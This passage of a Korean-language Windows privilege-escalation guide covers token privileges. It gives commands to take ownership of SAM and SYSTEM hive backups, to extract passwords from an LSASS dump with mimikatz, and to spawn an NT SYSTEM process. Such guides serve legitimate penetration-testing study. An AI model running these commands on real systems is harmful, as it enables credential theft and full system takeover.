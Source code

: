이는 **SeRestorePrivilege**와 유사합니다. 이 특권의 주요 기능은 프로세스가 **객체의 소유권을 가정할 수 있도록** 하여, WRITE\_OWNER 접근 권한을 제공함으로써 명시적인 재량 접근 요구 사항을 우회하는 것입니다. 이 과정은 먼저 쓰기 목적으로 의도된 레지스트리 키의 소유권을 확보한 다음, DACL을 변경하여 쓰기 작업을 가능하게 하는 것입니다.
```bash
takeown /f 'C:\some\file.txt' #Now the file is owned by you
icacls 'C:\some\file.txt' /grant <your_username>:F #Now you have full access
# Use this with files that might contain credentials such as
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
c:\inetpub\wwwwroot\web.config
```
### SeDebugPrivilege

이 권한은 **다른 프로세스를 디버그**할 수 있게 하며, 메모리에서 읽고 쓸 수 있습니다. 대부분의 안티바이러스 및 호스트 침입 방지 솔루션을 회피할 수 있는 메모리 주입을 위한 다양한 전략을 이 권한으로 사용할 수 있습니다.

#### Dump memory

[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)를 [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)에서 사용하여 **프로세스의 메모리를 캡처**할 수 있습니다. 특히, 이는 사용자가 시스템에 성공적으로 로그인한 후 사용자 자격 증명을 저장하는 **로컬 보안 권한 하위 시스템 서비스 (**[**LSASS**](https://en.wikipedia.org/wiki/Local\_Security\_Authority\_Subsystem\_Service)**)** 프로세스에 적용될 수 있습니다.

그런 다음 이 덤프를 mimikatz에 로드하여 비밀번호를 얻을 수 있습니다:
```
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
#### RCE

`NT SYSTEM` 셸을 얻고 싶다면 다음을 사용할 수 있습니다:

* [**SeDebugPrivilege-Exploit (C++)**](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)
* [**SeDebugPrivilegePoC (C#)**](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)
* [**psgetsys.ps1 (Powershell Script)**](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)
```powershell
# Get the PID of a process running as NT SYSTEM
import-module psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>)
```
## 권한 확인
```
whoami /priv
```
The **비활성화된 토큰**은 활성화할 수 있으며, 실제로 _활성화된_ 및 _비활성화된_ 토큰을 악용할 수 있습니다.
